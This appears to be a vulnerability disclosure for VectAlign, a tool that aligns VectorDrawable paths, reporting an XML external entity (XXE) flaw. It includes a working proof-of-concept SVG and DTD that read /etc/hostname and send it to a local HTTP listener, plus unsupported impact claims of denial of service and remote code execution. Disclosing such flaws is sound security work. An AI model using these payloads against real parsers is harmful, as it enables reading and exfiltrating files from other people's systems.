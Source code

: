 # Description

 `VectAlign` (a.k.a. VectorDrawableAlign) is a developer's tool which automagically aligns two VectorDrawable "pathData" strings (or SVG images) in order to allow morphing animations between them using an AnimatedVectorDrawable. this package is vulnerable to `(XXE)`.

https://github.com/bonnyfone/vectalign

# :recycle:  Steps To Reproduce-:  
  0) download and run https://bintray.com/artifact/download/bonnyfone/maven/vectalign-0.2-jar-with-dependencies.jar
  1) creat a payload svg or use : (this is a example of External Xml Inclusion )https://drive.google.com/drive/folders/1CLc0cYmz6Q-CGnMpDnupx7YTjNzo8Eir?usp=sharing
  
the example dd.svg looks like : 
```
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://localhost:8080/d.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```
d.xml
```
<!ENTITY % data SYSTEM "file:///etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://localhost:8080/s.l?=%data;'>">
```
# :male_detective: POC
  [gdrive](https://drive.google.com/file/d/1VqfAgldmtY-qrgHRfizVvAH2oIFZVT-q/view?usp=sharing)
## 💥 Impact
DOS or Denial of service
LFI or local file inclusion (as in the POC)
RCE 
